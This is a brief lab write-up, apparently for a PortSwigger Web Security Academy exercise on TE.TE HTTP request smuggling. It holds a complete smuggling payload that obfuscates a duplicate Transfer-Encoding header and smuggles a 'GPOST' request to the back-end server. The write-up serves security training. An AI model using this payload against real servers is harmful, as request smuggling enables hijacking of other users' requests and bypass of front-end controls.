




# obfuscating-te-header

## This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method.

## To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`

### Note: => TE.TE: the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.

---

### step 1



### step2



### step3

unchecked Update Content-Length in repeater setting
add payload

### Note:

### Transfer-Encoding: chunked

### Transfer-Encoding: chunked

if both will chunked then payload will not work

```
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: xchunked

9d
GPOST / HTTP/1.1
Host: 0a5b002e03412337873679e2002900db.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```



### step4


